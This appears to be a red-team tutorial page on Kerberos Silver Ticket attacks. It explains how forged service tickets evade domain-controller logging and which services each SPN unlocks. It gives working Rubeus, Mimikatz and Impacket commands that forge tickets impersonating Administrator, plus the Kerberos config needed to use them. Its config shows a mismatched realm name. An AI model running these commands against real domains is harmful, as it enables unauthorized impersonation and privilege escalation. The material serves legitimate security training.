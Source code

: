 # Silver Ticket

Silver Tickets are **forged** [**Kerberos**](../general-info.md#kerberos) **service tickets (TGS)** that allow attackers to authenticate to specific services without ever interacting with a Domain Controller (DC), making them a highly stealthy technique. Unlike [Golden Tickets](golden-ticket.md), which target the Kerberos TGT and require the `krbtgt` hash for domain-wide impersonation, Silver Tickets focus on a narrower scope: **service-level access on a specific host**. The attack hinges on the compromise of a service account’s secret—typically its NTLM hash or AES key.

When a client requests access to a service via Kerberos, the DC issues a TGS encrypted with the service account’s key. However, if an attacker already possesses this key—often extracted from memory using tools like [Mimikatz](../ad-tools/mimikatz.md)—they can forge a TGS offline. Since the target service only verifies the ticket using its own key and doesn’t consult the DC, forged Silver Tickets can appear entirely legitimate from the service’s perspective.

<figure><img src="../../../.gitbook/assets/silver_ticket_attack.png" alt=""><figcaption><p>The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

In practice, this allows red teamers to impersonate any user, including privileged ones, when accessing services like SMB (CIFS) and HTTP (e.g., for WinRM). For instance, compromising a machine account (e.g., `dcorp-dc$`), which often runs various services, can unlock broad access to services hosted on that system. These **machine accounts rotate their passwords every 30 days by default**, limiting the long-term usefulness of the ticket for persistence, but offering a powerful short-term privilege escalation vector.

<table><thead><tr><th width="140.66668701171875">Service (SPN)</th><th>Provides Access To</th></tr></thead><tbody><tr><td><code>HTTP</code></td><td>WinRM (Windows Remote Management)</td></tr><tr><td><code>CIFS</code></td><td>File system (SMB shares)</td></tr><tr><td><code>HOST</code></td><td>Scheduled tasks, remote service control, WMI (partial, combined with <code>RPCSS</code>)</td></tr><tr><td><code>RPCSS</code></td><td>WMI (combined with <code>HOST</code>), DCOM/RPC endpoint mapper</td></tr><tr><td><code>LDAP</code></td><td>DCSync (requires elevated permissions)</td></tr></tbody></table>

{% hint style="info" %}
`WSMAN` is the protocol the underlies PowerShell Remoting, so **SPNs used by WSMAN are actually of type HTTP**. WSMAN is build on top of HTTP/SOAP over TCP port 5985/5986.
{% endhint %}

The effectiveness of Silver Ticket attacks is often boosted by the **lack of strict Privilege Attribute Certificate (PAC) validation** on many services. Without PAC validation, services accept forged tickets without verifying user group memberships with the DC. While Microsoft introduced `PAC_REQUESTOR` validation post-October 2022 to mitigate such attacks—especially for non-existent users—this check is not universally enforced, particularly on non-critical services.

Once injected into memory, the forged ticket allows immediate access to the target service as the specified user. The attack remains **largely undetected by traditional DC-side logging**, as the ticket is never requested from the DC. This OPSEC-safe nature makes it attractive for stealth operations, and many detection platforms, including Microsoft Defender for Identity (MDI), may overlook such activity since **AP-REQ traffic doesn’t always raise flags**.

## **Tools**

{% hint style="danger" %}
**Proper construction of the Service Principal Name (SPN) is critical**: it must conform to Kerberos naming conventions (e.g., `HTTP/web04.corp.com`) rather than URL formats and is case-sensitive in some deployments.
{% endhint %}

We need three things:

1. Domain SID (can be obtained with [`nxc`](https://www.netexec.wiki/ldap-protocol/find-domain-sid) or PS's `Get-AdDomain`)
2. NTML (plaintext passwords can be [converted to NTML](https://codebeautify.org/ntlm-hash-generator))
3. SPN (via Kerberoasting)

{% tabs %}
{% tab title="Rubeus" %}
A service ticket can be forged with [Rubeus](../ad-tools/rubeus.md). Similar to the [Golden Ticket](golden-ticket.md) attack, the `/ldap` flag is used to query the DC for user information:

{% code overflow="wrap" %}
```powershell
# Forge a ST with Rubeus
.\Rubeus.exe silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:<rc4> /sid:<domainSID> /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```
{% endcode %}
{% endtab %}

{% tab title="Mimikatz" %}
Forging a service ticket with [Mimikatz](../ad-tools/mimikatz.md):

{% code overflow="wrap" %}
```powershell
# Forge a ST with Mimikatz
.\mimikatz.exe "kerberos::golden /sid:<domainSID> /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:<rc4> /user:jeffadmin" "exit"
```
{% endcode %}
{% endtab %}

{% tab title="Impacket" %}
{% code overflow="wrap" %}
```bash
# Request the TGS impersonating the Administrator
impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain domain.local -spn MSSQL/x7331.domain.local -user-id 500 Administrator

# Export the ticket
export KRB5CCNAME=Administrator.ccache
```
{% endcode %}

To use the ticket a configuration file (`/etc/krb5user.conf`) must exists with the appropriate mappings. This is required because the authentication attempt is being made from the attacking machine, which lacks the target domain’s native Kerberos context. When a Silver Ticket is generated and saved as a credential cache, tools such as `mssqlclient.py` still depend on Kerberos libraries to interpret the ticket. Without explicit realm and hostname mappings, the client cannot associate the forged ticket with the correct domain or service, especially when the MSSQL instance is accessed through port forwarding.

{% code title="krb5user.conf" %}
```shell
[libdefaults]
        default_realm = DOMAIN.LOCAL
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]
        NAGOYA-INDUSTRIES.COM = {
                kdc = dc01.domain.local
        }

[domain_realm]
        .domain.local = DOMAIN.LOCAL
```
{% endcode %}

Then we need to also map the domain locally at `/etc/hosts` and use the ticket:

```bash
$ grep '127.0.0.1' /etc/hosts
127.0.0.1       localhost dc01.domain.local

$ impacket-mssqlclient dc01.domain.local -k
```
{% endtab %}
{% endtabs %}

